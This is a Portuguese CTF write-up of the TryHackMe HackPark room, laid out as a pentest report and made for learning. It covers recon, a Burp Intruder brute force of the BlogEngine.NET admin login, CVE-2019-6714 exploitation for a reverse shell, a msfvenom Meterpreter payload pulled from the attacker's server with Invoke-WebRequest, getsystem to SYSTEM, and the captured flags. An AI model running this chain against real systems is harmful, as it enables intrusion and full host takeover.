










# 🎪 HackPark — CTF Writeup
### TryHackMe | Brute-Force de Autenticação · CVE-2019-6714 (BlogEngine.NET RCE) · Escalação de Privilégios Windows (SYSTEM)

---

| **Analista**          | Mauricio Robert                                                                        |
|-----------------------|----------------------------------------------------------------------------------------|
| **Organização**       | Faculdade Impacta                                                                      |
| **Data do Relatório** | 27/08/2026                                                                             |
| **Data do Pentest**   | 26/08/2026 · 23:24 – 27/08/2026 · 00:41 (GMT+0000)                                     |
| **Alvo**              | `10.66.163.246` — **HACKPARK** (Windows Server 2012 R2) — TryHackMe · HackPark          |
| **Classificação**     | CONFIDENCIAL                                                                           |
| **Ferramentas**       | Nmap · Gobuster · Burp Suite (Intruder) · Exploit-DB · msfvenom · Metasploit Framework (multi/handler + Meterpreter) · Netcat · PowerShell |
| **Plataforma**        | TryHackMe — Windows Exploitation / Privilege Escalation                               |

---

## 🔍 Resumo Executivo

Este relatório documenta o comprometimento completo da máquina **HackPark** (TryHackMe), um servidor **Windows Server 2012 R2** hospedando o site fictício de um parque de diversões, construído sobre a plataforma de blog **BlogEngine.NET**. O objetivo do desafio era realizar **brute-force no login administrativo**, identificar e explorar uma **falha pública (CVE)** para obter execução remota de código, e então **escalar privilégios** até `NT AUTHORITY\SYSTEM`. A cadeia de ataque teve início com um **reconhecimento via Nmap**, que identificou apenas duas portas relevantes expostas: **80/tcp (HTTP — Microsoft-IIS/8.5)**, hospedando o site "hackpark | hackpark amusements", e **3389/tcp (RDP)**, cujo banner NTLM revelou o nome do host (**HACKPARK**), o domínio (**hackpark**) e a versão do sistema operacional (**Windows Server 2012 R2, Build 9600**). A enumeração de diretórios com **Gobuster** revelou a existência de um painel administrativo em **`/Account/login.aspx`**, acessível também pelas rotas `/admin` e `/ADMIN` (redirecionadas para o login). Diante da ausência de rate-limiting, um **ataque de força bruta** foi conduzido contra esse formulário de autenticação (usando o **Burp Suite Intruder** como alternativa ao Hydra sugerido pela sala), fixando o usuário `admin` e testando uma wordlist de senhas comuns — a resposta com código de status e tamanho de conteúdo distintos (**302 Found**, redirecionando para `/setup`) identificou a senha correta: **`1qaz2wsx`**. Autenticado no painel administrativo do **BlogEngine.NET**, a versão da aplicação (**3.3.6**) foi correlacionada a uma vulnerabilidade pública crítica catalogada no **Exploit-DB (EDB-ID 46353 / CVE-2019-6714)**: uma falha de **Directory Traversal levando a Remote Code Execution**, causada por um parâmetro `theme` não validado no arquivo `/Custom/Controls/PostList.ascx.cs`. Seguindo o passo a passo do exploit público, um arquivo malicioso (`PostView.ascx`) contendo código para abrir uma conexão TCP reversa foi **enviado através do editor de posts do blog** (função de upload de arquivos do painel administrativo), sendo então acionado ao acessar a URL base do blog com o parâmetro de tema sobrescrito — resultando em uma **shell reversa** recebida via `netcat`, executando no contexto **`iis apppool\blog`**. A partir dessa shell inicial, um payload **Meterpreter** foi gerado com **msfvenom** (`windows/meterpreter/reverse_tcp`), hospedado via `python3 -m http.server`, baixado no alvo através de **`Invoke-WebRequest`** (PowerShell) e executado, resultando em uma sessão Meterpreter completa capturada pelo **`exploit/multi/handler`** do Metasploit. Com a sessão estabelecida, o comando **`getsystem`** obteve privilégios de **`NT AUTHORITY\SYSTEM`** com sucesso através da técnica 5 (**Named Pipe Impersonation — variante PrintSpooler**), sem necessidade de exploração manual adicional — embora vestígios no Desktop do Administrador (`System Scheduler.lnk`) confirmem a existência do vetor de escalonamento manual originalmente previsto pela sala (exploração de uma aplicação de terceiros vulnerável rodando como serviço SYSTEM). A partir do acesso elevado, as flags de usuário (`C:\Users\jeff\Desktop\user.txt`) e de root/administrador (`C:\Users\Administrator\Desktop\root.txt`) foram coletadas, completando integralmente o desafio.

---

## 🛠 Ferramentas Utilizadas

| Ferramenta                          | Versão / Detalhe            | Finalidade                                                                             |
|--------------------------------------|-----------------------------|-----------------------------------------------------------------------------------------|
| **Nmap**                              | 7.99                        | Varredura de portas e identificação de serviços/host (`10.66.163.246`)                  |
| **Gobuster**                           | 3.8.2                        | Enumeração de diretórios/rotas do site em ASP.NET (porta 80)                            |
| **Burp Suite (Intruder)**             | -                            | Ataque de força bruta contra o formulário de login administrativo (`/Account/login.aspx`) |
| **Exploit-DB**                        | EDB-ID 46353 / CVE-2019-6714 | Identificação e obtenção do exploit público para BlogEngine.NET 3.3.6                    |
| **msfvenom**                           | Metasploit Framework 6.5.2-dev | Geração de payload `windows/meterpreter/reverse_tcp` (`shell.exe`)                       |
| **Metasploit (`exploit/multi/handler`)** | 6.5.2-dev                  | Captura da sessão Meterpreter e escalonamento de privilégios (`getsystem`)               |
| **Netcat**                             | -                            | Recepção da shell reversa inicial obtida pela exploração do BlogEngine.NET               |
| **PowerShell (`Invoke-WebRequest`)**  | -                            | Download do payload Meterpreter (`shell.exe`) diretamente no host comprometido            |
| **Python HTTP Server**                 | Python 3                    | Hospedagem do payload para download pelo alvo                                            |

---

## 📋 Fases de Comprometimento

### FASE 1 — Reconhecimento de Rede (Nmap)

A varredura completa de portas contra `10.66.163.246` revelou uma superfície de ataque enxuta:

```bash
nmap -p- --min-rate=5000 -Pn 10.66.163.246
```

```
PORT   STATE SERVICE
80/tcp open  http
```

A varredura de versão e scripts detalhou o serviço web e revelou uma segunda porta relevante (RDP), não capturada na primeira passagem devido à filtragem:

```bash
nmap -sV -Pn -sS -sC 10.66.163.246
```

```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: HACKPARK
|   NetBIOS_Domain_Name: HACKPARK
|   NetBIOS_Computer_Name: HACKPARK
|   DNS_Domain_Name: hackpark
|   DNS_Computer_Name: hackpark
|   Product_Version: 6.3.9600
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```


Os achados confirmaram um servidor **IIS 8.5** hospedando o site "**hackpark | hackpark amusements**" sobre **Windows Server 2012 R2 (Build 9600)**, com o **RDP exposto** — hostname e domínio **HACKPARK** revelados diretamente pelo handshake NTLM do RDP, sem necessidade de autenticação.

---

### FASE 2 — Enumeração Web (Gobuster): Descoberta do Painel Administrativo

A aplicação web foi enumerada em busca de diretórios e arquivos ocultos:

```bash
gobuster dir -u http://10.66.163.246/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 70 -x php,txt,js
```

```
Archive               (Status: 200) [Size: 8325]
Content               (Status: 301) [--> /Content/]
Scripts               (Status: 301) [--> /Scripts/]
Search                (Status: 200) [Size: 8407]
ADMIN                 (Status: 302) [--> /Account/login.aspx?ReturnURL=/ADMIN]
Admin                 (Status: 302) [--> /Account/login.aspx?ReturnURL=/Admin]
account               (Status: 301) [--> /account/]
admin                 (Status: 302) [--> /Account/login.aspx?ReturnURL=/admin]
ContactUs             (Status: 200) [Size: 9937]
Contact               (Status: 200) [Size: 9935]
archive / archives    (Status: 200)
aspnet_client         (Status: 301) [--> /aspnet_client/]
```


O achado mais relevante foi a existência da rota **`/Account/login.aspx`**, para a qual todas as variações de `/admin` redirecionam — confirmando um **painel administrativo ASP.NET** protegido por autenticação, e a natureza da aplicação como um blog construído em **ASP.NET WebForms** (típico do **BlogEngine.NET**).

> 🚨 **Achado: painel administrativo exposto em `/Account/login.aspx`, sem qualquer restrição de acesso por rede ou rate-limiting aparente.**

---

### FASE 3 — Força Bruta no Login Administrativo (Burp Suite Intruder)

Com o formulário de login identificado, um ataque de força bruta foi conduzido — como alternativa ao Hydra sugerido pela sala — utilizando o **Burp Suite Intruder**, fixando o usuário `admin` e testando uma lista de senhas comuns contra o campo `Password`:

```
POST /Account/login.aspx?ReturnUrl=%2fsetup HTTP/1.1
Host: 10.66.163.246
...
ctl00%24MainContent%24LoginUser%24UserName=admin&
ctl00%24MainContent%24LoginUser%24Password=§password§&
ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```

A varredura testou payloads como `joshua`, `bubbles`, `1234567890`, `superman`, `hannah`, `amanda`, `loveyou`, entre outros — todos retornando **Status 200** (falha de login, página recarregada, tamanho de resposta constante em **4733 bytes**). O payload **`1qaz2wsx`** destacou-se com um resultado distinto:

```
Payload: 1qaz2wsx
Status:  302
Length:  1171
```

A resposta **`302 Found`** com redirecionamento para **`/setup`** confirmou uma autenticação **bem-sucedida**, revelando a credencial administrativa:

```
Usuário: admin
Senha:   1qaz2wsx
```


> 🚨 **Vulnerabilidade: ausência de proteção contra força bruta (rate-limiting/lockout) no formulário de autenticação administrativa, permitindo a descoberta da senha `1qaz2wsx` para o usuário `admin`.**

---

### FASE 4 — Identificação de Vulnerabilidade Pública (CVE-2019-6714)

Após autenticar no painel administrativo, a aplicação foi identificada como **BlogEngine.NET**. A busca por vulnerabilidades públicas conhecidas para essa plataforma no **Exploit-DB** revelou uma falha crítica correspondente à versão em uso:

```
Título: BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution
EDB-ID: 46353          CVE: CVE-2019-6714
Autor:  Dustin Cobb     Tipo: WEBAPPS (ASPX)
Data:   2019-02-12
```

A descrição do exploit detalha:

> *"Path traversal vulnerability leading to remote code execution. This vulnerability affects BlogEngine.NET versions 3.3.6 and below. This is caused by an unchecked 'theme' parameter that is used to override the default theme for rendering blog pages. The vulnerable code can be seen in `/Custom/Controls/PostList.ascx.cs`."*

O método de exploração descrito consiste em:

1. Configurar o endereço e a porta do **TcpClient** no script do exploit, apontando para um listener reverso no host atacante.
2. **Enviar o arquivo malicioso através do gerenciador de arquivos** do painel administrativo — editando um post e utilizando o ícone de upload ("open file") na barra de ferramentas. O arquivo deve ser enviado com o nome **`PostView.ascx`**, sendo então armazenado no diretório **`/App_Data/files`**, na raiz do documento.
3. **Acionar a vulnerabilidade** acessando a URL base do blog com um parâmetro de sobrescrita de tema (`theme override`) apontando para o arquivo malicioso enviado.


> 🚨 **Vulnerabilidade crítica: Directory Traversal no parâmetro `theme` de `/Custom/Controls/PostList.ascx.cs` (CVE-2019-6714), permitindo upload e execução arbitrária de código `.ascx` através do painel administrativo do BlogEngine.NET.**

---

### FASE 5 — Exploração: Shell Reversa Inicial

Seguindo os passos do exploit público, o payload malicioso (`PostView.ascx`) foi enviado através do editor de posts autenticado, e a URL base do blog foi acessada com o parâmetro de tema sobrescrito para acionar a execução. Um listener `netcat` foi previamente configurado para receber a conexão:

```bash
nc -lnvp 4444
```

```
listening on [any] 4444 ...
connect to [192.168.157.47] from (UNKNOWN) [10.66.163.246] 49455
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\blog
```

A exploração foi bem-sucedida, resultando em uma shell interativa executando no contexto de aplicação **`iis apppool\blog`** — o pool de aplicativo dedicado ao site BlogEngine.NET no IIS.


> 🚩 **Acesso inicial confirmado: shell reversa como `iis apppool\blog`, via exploração de CVE-2019-6714.**

---

### FASE 6 — Upgrade da Shell: Payload Meterpreter via msfvenom

Para obter uma sessão mais robusta e com maior controle (necessária para o escalonamento de privilégios subsequente), um payload **Meterpreter** foi gerado com `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.157.47 LPORT=6767 -f exe > shell.exe
```

```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 355 bytes
Final size of exe file: 7168 bytes
```

O arquivo foi disponibilizado através de um servidor HTTP local:

```bash
python3 -m http.server 8080
```



```
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.66.163.246 - - [27/Aug/2026 00:39:38] "GET /shell.exe HTTP/1.1" 200 -
```

A partir da shell reversa inicial (Fase 5), o payload foi baixado diretamente no host comprometido usando **PowerShell**:

```powershell
powershell -c "Invoke-WebRequest -Uri 'http://192.168.157.47:8080/shell.exe' -OutFile 'C:\Windows\Temp\shell.exe'"
```



A confirmação do download e uma breve enumeração do sistema de arquivos foram realizadas na sequência:

```
c:\>dir
 Directory of c:\
08/26/2026  04:27 PM    <DIR>          badr
08/04/2019  04:34 AM    <DIR>          inetpub
08/26/2026  05:39 PM    <DIR>          Microsoft
08/22/2013  08:52 AM    <DIR>          PerfLogs
08/06/2019  02:08 PM    <DIR>          Program Files
08/06/2019  02:12 PM    <DIR>          Program Files (x86)
08/04/2019  11:54 AM    <DIR>          Users
10/02/2020  03:03 PM    <DIR>          Windows
```

---

### FASE 7 — Captura da Sessão Meterpreter

No host atacante, o `exploit/multi/handler` do Metasploit foi configurado para receber a conexão do payload `shell.exe` executado no alvo:

```bash
msfconsole
use exploit/multi/handler
set lhost 192.168.157.47
set lport 6767
set payload windows/meterpreter/reverse_tcp
run
```

```
[*] Started reverse TCP handler on 192.168.157.47:6767
[*] Sending stage (203454 bytes) to 10.66.163.246
[*] Meterpreter session 1 opened (192.168.157.47:6767 → 10.66.163.246:49502) at 2026-08-27 00:41:01 +0000

meterpreter > sysinfo
Computer        : HACKPARK
OS              : Windows Server 2012 R2 (6.3 Build 9600).
Architecture    : x64
Domain          : WORKGROUP
Meterpreter     : x86/windows
```

A sessão Meterpreter foi estabelecida com sucesso, confirmando o alvo **HACKPARK** e proporcionando uma base estável para o escalonamento de privilégios.

---

### FASE 8 — Escalação de Privilégios: `NT AUTHORITY\SYSTEM`

Com a sessão Meterpreter ativa, o comando nativo de escalonamento automático foi executado:

```
meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

O escalonamento foi bem-sucedido através da **técnica de impersonation via named pipes (variante PrintSpooler)**, elevando o contexto de execução de `iis apppool\blog` diretamente para **`NT AUTHORITY\SYSTEM`**, sem necessidade de exploração manual adicional. Vale destacar que um atalho **`System Scheduler.lnk`**, encontrado posteriormente no Desktop do Administrador (Fase 9), evidencia a existência do **vetor de escalonamento manual originalmente previsto** pela sala — a exploração de uma aplicação de terceiros vulnerável ("System Scheduler") configurada para rodar com privilégios de SYSTEM — vetor este que se tornou desnecessário diante do sucesso imediato do `getsystem`.


> 🚩 **Privilégio máximo obtido: `NT AUTHORITY\SYSTEM`, via Named Pipe Impersonation (técnica automatizada do Meterpreter).**

---

### FASE 9 — Coleta das Flags

Com privilégios de SYSTEM, o sistema de arquivos foi enumerado em busca das flags do desafio.

**Flag de usuário** (`jeff`):

```
meterpreter > ls
Listing: c:\Users\jeff\Desktop
==============================
Mode              Size  Type Last modified              Name
100666/rw-rw-rw-  282   fil  2019-08-04 18:54:53 +0000  desktop.ini
100666/rw-rw-rw-  32    fil  2019-08-04 18:57:10 +0000  user.txt

meterpreter > cat user.txt
759bd8af507517bcfaede78a21a73e39
```

**Flag de administrador/root**:

```
meterpreter > cd c:\Users\Administrator\Desktop\
meterpreter > ls
Listing: c:\Users\Administrator\Desktop
========================================
Mode              Size  Type Last modified              Name
100666/rw-rw-rw-  1029  fil  2019-08-04 11:36:42 +0000  System Scheduler.lnk
100666/rw-rw-rw-  282   fil  2019-08-03 17:43:54 +0000  desktop.ini
100666/rw-rw-rw-  32    fil  2019-08-04 18:51:42 +0000  root.txt

meterpreter > cat root.txt
7e13d97f05f7ceb9881a3eb3d78d3e72
```


